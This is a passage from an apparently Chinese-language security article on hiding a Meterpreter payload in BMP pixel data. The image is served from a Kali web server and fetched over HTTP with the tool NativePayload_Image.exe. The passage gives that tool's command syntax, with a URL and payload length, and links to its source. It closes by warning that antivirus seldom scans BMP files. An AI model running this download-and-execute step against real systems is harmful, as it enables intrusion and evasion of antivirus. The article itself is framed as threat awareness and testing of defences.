 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t016c5794d029cd55b1.png)

图16

如图16所示，修改此文件后，我们可以在“300％缩放”后看到黑色背景中的Meterpreter有效载荷像素。

从下一张图中可以看到，这个修改后的BMP文件很有效。

此时，我要在网站中使用该BMP文件，以供通过HTTP流量下载，所以我们使用上一步中制作的“MyBMP_to_Modify.bmp”文件。我在Kali linux中做了一个Web服务器，以供通过“Url”和HTTP流量下载该位图 文件。

第4步：通过“Url”和HTTP流量从网站下载BMP文件。

我们现在有了该“MyBMP_to_Modify.bmp”文件，我通过Python Web服务器通过“python -m SimpleHTTPServer”在kali linux web服务器中使用这个文件，最终我通过“HTTP流量”获得了Meterpreter会话，如图17所示。

通过Url下载BMP文件，我们的语法是：

```
语法: NativePayload_Image.exe url “Url” [Meterpreter_payload_Length] [Header_Length]
 
语法: NativePayload_Image.exe url "https://url.com/MyBMP_to_Modify.bmp"  510   54
```

[![](https://p0.ssl.qhimg.com/t0106ec0d82d53823da.png)](https://p0.ssl.qhimg.com/t0106ec0d82d53823da.png)

图17

<br>

**总结**

这一技术并不新鲜，但我认为没有人关注这个威胁，但这真的危险。我们应该检查我们的防病毒软件是否面临此威胁，尤其是当有人在BMP文件中使用加密有效载荷时（大多数防病毒软件均无法检测到），或有人使用该技术时将有效载荷分块到一个以上BMP文件时（也很危险）。我认为默认情况下，大多数防病毒软件不实时扫描BMP扩展文件，我认为文件系统手动扫描也不能检测到BMP文件中的这个有效载荷。如果有人使用该技术进行数据的渗漏传输（无BMP文件中的后门有效载荷），那我们如何来防御？我们如何来检测该方法？现在就去检查一下您的防病毒软件吧！

C＃代码：[https://github.com/DamonMohammadbagher/NativePayload_Image](https://github.com/DamonMohammadbagher/NativePayload_Image)
